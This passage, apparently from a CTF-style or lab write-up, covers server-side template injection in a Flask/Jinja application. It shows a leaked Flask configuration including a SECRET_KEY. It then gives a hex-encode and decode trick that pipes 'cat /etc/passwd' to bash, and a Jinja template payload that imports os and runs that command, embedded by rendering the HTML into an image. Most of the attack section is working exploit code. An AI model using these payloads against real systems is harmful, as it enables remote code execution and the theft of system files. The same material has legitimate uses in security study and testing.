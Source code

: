
After translating the escaped characters back:

```python
dict_items([
    ('ENV', 'production'),
    ('DEBUG', False),
    ('TESTING', False),
    ('PROPAGATE_EXCEPTIONS', None),
    ('PRESERVE_CONTEXT_ON_EXCEPTION', None),
    ('SECRET_KEY', b'_5#y2L"F4Q8z\n\xec]/'),
    ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(31)),
    ('USE_X_SENDFILE', False),
    ('SERVER_NAME', None),
    ('APPLICATION_ROOT', '/'),
    ('SESSION_COOKIE_NAME', 'session'),
    ('SESSION_COOKIE_DOMAIN', False),
    ('SESSION_COOKIE_PATH', None),
    ('SESSION_COOKIE_HTTPONLY', True),
    ('SESSION_COOKIE_SECURE', False),
    ('SESSION_COOKIE_SAMESITE', None),
    ('SESSION_REFRESH_EACH_REQUEST', True),
    ('MAX_CONTENT_LENGTH', None),
    ('SEND_FILE_MAX_AGE_DEFAULT', None),
    ('TRAP_BAD_REQUEST_ERRORS', None),
    ('TRAP_HTTP_EXCEPTIONS', False),
    ('EXPLAIN_TEMPLATE_LOADING', False),
    ('PREFERRED_URL_SCHEME', 'http'),
    ('JSON_AS_ASCII', True),
    ('JSON_SORT_KEYS', True),
    ('JSONIFY_PRETTYPRINT_REGULAR', False),
    ('JSONIFY_MIMETYPE', 'application/json'),
    ('TEMPLATES_AUTO_RELOAD', None),
    ('MAX_COOKIE_SIZE', 4093)])
```

### Embedding a payload in an image

As seen earlier, a command can be encoded in HEX:

```shell
# encode
echo -n 'cat /etc/passwd' | xxd -p -u -c 1024
# decode
echo -n 636174202F6574632F706173737764 | xxd -r -p -c 1024 | bash
```

And then in an image by capturing a "node screenshot" of:

```html
<h4 align="center">
{{ request.application.__globals__.__builtins__.__import__("os").popen("echo -n 636174202F6574632F706173737764 | xxd -r -p -c 1024 | bash ").read() }}
</h4>
```
